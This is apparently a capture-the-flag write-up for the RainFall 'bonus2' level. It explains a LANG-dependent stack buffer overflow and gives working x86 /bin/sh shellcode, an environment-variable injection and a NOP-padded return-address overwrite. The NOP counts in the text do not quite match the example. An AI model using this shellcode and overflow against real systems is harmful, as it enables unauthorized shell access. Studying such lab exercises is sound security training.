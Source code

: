 # bonus 2

In this level, we have a program that wil take two arguments

If we have two arguments, it will display Hello followed by the 1st argument

```bash
bonus2@RainFall:~$ ./bonus2 a b
Hello a
```

If we take a look in the source code, we can see that it's taking in consideration different languages with the env variable LANG and that it haves a buffer of a size of 64. According to the language, the content that will be in the buffer will be different

```bash
bonus2@RainFall:~$ export LANG="fi"
bonus2@RainFall:~$ ./bonus2 a b
Hyvää päivää a
```

The structure of the user containing the name, password and id of the user have a buffer of 80 and the idea would be to make it overflow and make it execute a shellcode

we will use the same shellcode as the one for the bonus0

```bash
export SHELLCODE=$(python -c 'print("\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80")')
```

So in our first variable, we will fill the buffer of the name and in the second one, we will fill with some NOP that would be followed by our shellcode and the result of the strcpy (so according to if we select as language 	`fi` or `nl`, we will have to put 23 or 18 NOP) 

```bash
bonus2@RainFall:~$ export LANG=fi
bonus2@RainFall:~$ ./bonus2 $(python -c "print('\x90' * 40)") $(python -c "print('\x90' * 18 + '\xbf\xff\xf8\xe1'[::-1])")
Hyvää päivää ��������������������������������������������������������������
$ whoami
```